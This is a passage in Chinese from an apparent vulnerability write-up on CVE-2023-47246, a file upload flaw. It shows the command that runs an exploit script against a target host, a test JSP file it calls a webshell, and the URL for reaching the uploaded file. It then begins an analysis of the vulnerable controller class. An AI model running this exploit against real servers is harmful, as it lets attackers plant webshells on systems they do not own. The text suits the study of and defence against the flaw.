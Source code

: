 运行 exp：

```plain
python CVE-2023-47246-EXP.py -u http://host:8080 -p http://127.0.0.1:8088 -f 2.jsp
```

这里上传 2.jsp：

```plain
hello<%=8*8%>
```

[![](assets/1701606560-465d571ccd6bd145a8f4c66e48adebc8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231122144540-c051a8e2-8902-1.png)

成功上传，访问所上传的 webshell：

```plain
http://domain/6YY7Y/2.jsp
```

[![](assets/1701606560-ab92657f0eb790dc1b875f2d50a74794.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231122104218-c10a8424-88e0-1.png)

# 0x04 漏洞分析

查看日志，确定文件上传的路由对应的 Controller 是 `com.ilient.server.UserEntry` 这个类：

[![](assets/1701606560-a9036bd474affed9d6a3c6d142ec7a9a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231122104319-e564580e-88e0-1.png)
